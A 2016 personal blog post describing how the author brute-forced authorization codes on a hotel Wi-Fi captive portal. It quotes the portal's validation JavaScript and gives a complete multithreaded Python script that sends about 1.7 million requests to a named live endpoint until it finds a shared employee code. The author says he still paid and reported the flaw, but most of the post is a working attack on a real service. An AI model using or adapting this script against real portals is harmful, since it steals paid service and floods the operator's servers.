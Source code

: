 ```yaml
---
layout: post
title: "How I Got Free Wi-Fi at a Hotel"
date: 2016-09-11T00:05:43-04:00
---
```

*Full Disclosure: I still paid for internet and contacted Intello about the vulnerability.*

Recently I visited Blue Mountain, and I wanted to see if I could avoid paying $15 per day per device for internet access. Once you connect to their network, they present 3 options to purchase internet access:

  1. Enter your credit card information and get billed directly.
  2. Enter your room number and name and have the charge applied to your room.
  3. Enter an authorization code.

I pursued option 3, and decided to crack an authorization code through brute-force. I looked through the html/javascript and found that it wasn't minified, so it was easy to see the logic. The submit button triggers a javascript function that uses JQuery to get the value of the auth code field, and it makes an HTTP GET request where the auth code is a query parameter. The result is a JSON object, and if the property "status" is 2, then it is a valid auth code. This endpoint was very fast, and didn't have any special encoding or security measurements in place. On the website it said that authorization codes are case insensitive, and I made the assumption that they were alphanumeric. 

{% highlight javascript %}
$.ajax({
    url: "http://portal.ihotel.ca/GuestsAPI?function=ValidateAuthCode&iHotelAuthCode=" + $('#iHotel_Authcode').val() + "&iHotelLocation=" + iHotel_location_id,
    cache: false,
    success: function(data) {
        switch (data.status) {
            case 0:
                iHotelBlockUI("error-text", "We are sorry, but the code you have entered is not registered. If you have misspelled the authorization code, please try again, otherwise please contact the hotel front desk to receive a new authorization code. <p><small>The authorization code is not case sensitive.</small></p>[IHCC005]", "error-lightbox");
                break;
            case 1:
                iHotelBlockUI("error-text", "Maximum number of devices reached for this transaction. Please contact the front desk to obtain an authorization code.(IHCC032)", "error-lightbox");
                break;
            case 2:
                //Code is valid, let's try to authorize it
                //alert("Will use: "+data.location_id);
                if (data.location_id) {
                    $("#iHotel_Authcode_location_id").val(data.location_id);
                }
                LoadingShow();
                $('#iHotel_AuthCode_Form').submit();
                break;
            case 3:
                //Code is valid, in an allowed roaming location, let's use it.
                $("#iHotel_Authcode_location_id").val(data.location_id);
                $("#iHotel_AuthCode_Form").submit();
                break;
            default:
                iHotelBlockUI("error-text", "An error occured, please contact the front desk to obtain an authorization code.(IHCC031)", "error-lightbox");
        }
    },
    error: function(data) {
        iHotelBlockUI("error-text", "An error occured, please contact the front desk to obtain an authorization code.(IHCC031)", "error-lightbox");
    }
});
{% endhighlight %}

I wrote a python script to try all alphanumeric auth codes of length 4 and let it run for about 30 minutes. This was a multithreaded script using 200 threads, making a total of 1.7 million requests. The script stumbled upon `ends`, which turned out to be an authorization code that employees of Blue Mountain share to get internet access. I entered this code into the landing page and it worked. Free internet access after a half-hour of password cracking.

{% highlight python %}
from urlparse import urlparse
from threading import Thread
import httplib, sys, urllib2, urllib
from Queue import Queue
numThreads = 200
url1 = "http://portal.ihotel.ca/GuestsAPI?function=ValidateAuthCode&iHotelAuthCode="
url2 = "&iHotelLocation=BlueMountainGuests"
letters = ["a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9"]

def doWork():
  while True:
    code = q.get()
    status, url = getStatus(code)
    doSomethingWithResult(status, url)
    q.task_done()

def getStatus(code):
  try:
    conn = httplib.HTTPConnection("portal.ihotel.ca")
    params = {"function": "ValidateAuthCode", "iHotelAuthCode": code, "iHotelLocation": "BlueMountainGuests"}
    conn.request("GET", "/GuestsAPI?function=ValidateAuthCode&iHotelAuthCode=" + code + "&iHotelLocation=BlueMountainGuests")
    res = conn.getresponse()
    val = res.read()
    conn.close()
    return val, code
  except:
    return "error", code

def doSomethingWithResult(result, code):
  print code 
  if "Invalid" not in result:
    print result, code
    sys.exit(1)

q = Queue(numThreads * 2)
for i in range(numThreads):
  t = Thread(target=doWork)
  t.daemon = True
  t.start()
try:
  for n in range(36**4):
    n = n + 36**4
    code = ""
    while n > 0:
      code = letters[n%36] + code
      n = int(n / 36)
    code = code[1:]
    q.put(code)
  q.join()
except KeyboardInterrupt:
  sys.exit(1)
{% endhighlight %}
